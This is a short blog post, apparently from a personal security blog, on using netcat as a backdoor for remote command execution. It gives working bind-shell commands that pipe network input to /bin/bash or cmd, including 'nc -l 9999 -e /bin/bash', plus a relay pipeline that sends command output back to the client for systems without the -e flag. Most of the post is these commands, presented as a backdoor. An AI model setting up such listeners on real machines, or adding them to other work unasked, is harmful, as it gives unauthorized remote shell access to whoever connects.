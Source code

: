 ```yaml
---
layout: post
title:  "Use nc cli command as backdoor"
author: dave
date:   2023-12-20 15:30:59 +0200
categories: [Reversing, nix Security]
tags: [Reversing, nix Security, Networking]
published: true 
---
```


## Synopsis
Netcat (or nc) is a command-line utility that reads and writes data across network connections, using the TCP or UDP protocols. It is one of the most powerful tools in the network and system administrators arsenal, and it as considered as a Swiss army knife of networking tools.

Netcat is cross-platform, and it is available for Linux, macOS, Windows, and BSD. You can use Netcat to debug and monitor network connections, scan for open ports, transfer data, as a proxy, and more.


### Use 'nc' as backdoor for remote cmd execution
#### The easy way
Earlier the **nc** command supported the **'-e'** flag which allowed the client to execute commands on the server and receive the output. This command flag may not be available anymore today on modern systems (specially macOS). But for completeness here is an example of how to use it.

**Server**

```bash
nc -l <Port> -e <command to execute>
...
nc -l 9999 -e /bin/bash
```

On Windows

```bash
nc -l -p <Port> -e <command to execute>
...
nc -l -p 6969 -e cmd
```
![](../assets/img/nc-backdoor/2023-12-20-NC-Setup-Server-Windows-NC-E-sized.png)

**Client**

```bash
nc <hostaddress> <Port>
...
nc 127.0.0.1 9999
```

On macOS

```bash
nc <hostaddress> <Port>
...
nc 192.168.64.2 6969
```

![](../assets/img/nc-backdoor/2023-12-20-NC-Setup-Client-macOS-E-sized.png)

Output on client will be something like:

For a macOS server with current directory [USERHOME]

```bash
Applications
Desktop
Documents
Downloads
Movies
Music
Pictures
...
```

#### The 'old fashioned' way
With some (newer) versions of **nc** or on macOS for example you don't have the option of using the **-e** flag for executing commands on the target. But don't despair just yet, there is another way. You can use **nc** in another way to execute commands on the target and even get response of the executed commands. It's just a little more fingerworks to do.

The basic setup involves a **server** where you accept commands just the way you would do with the **-e** command, but as long as you cannot use this flag, you will have to forward the output to the interpreter by your self. This can be done with:

```bash
nc -l 6969 | /bin/bash
```
This command on the server side will forward all incomming messages to _/bin/bash_ and execute it, so far so well! But what is with the response? If you setup the connection between server and client like this, the client will get no response what so ever from the server and that might a be little bit poor. So what can we do?

What we can do, is to use the server as some kind of relay to execute the incomming command and then forward the result to another nc connection back to the client. So how will the setup Look like? First you setup a terminal on the client with the following command listening for results:

```bash
nc -l 6968
```

Then you setup the server with the relay listening for incomming commands, executeing them and forwardening the result back to the client with:

```bash
nc -l 6969 | /bin/bash | nc 127.0.0.1 6968
```

All that is left to do now is to setup a client connection to the server from where you can send commands with the following:

```bash
nc 127.0.0.1 6969
```

Now you can send commands from the client to the server and receive the results of the executed commands in the second terminal on the client.

### Overview

##### Console on CLIENT for output
```bash
nc -l 6968
```

##### Console on SERVER
```bash
nc -l 6969 | /bin/bash | nc 127.0.0.1 6968
```

##### Console on CLIENT for sending commands
```bash
nc 127.0.0.1 6969
```

## Credits
- [_linuxhandbook.com_](https://linuxhandbook.com/nc-command/){:target="_blank" rel="noopener"}
- [_linuxize.com_](https://linuxize.com/post/netcat-nc-command-with-examples/){:target="_blank" rel="noopener"}
- [_unix.stackexchange.com_](https://unix.stackexchange.com/questions/352490/is-nc-netcat-on-macos-missing-the-e-flag){:target="_blank" rel="noopener"}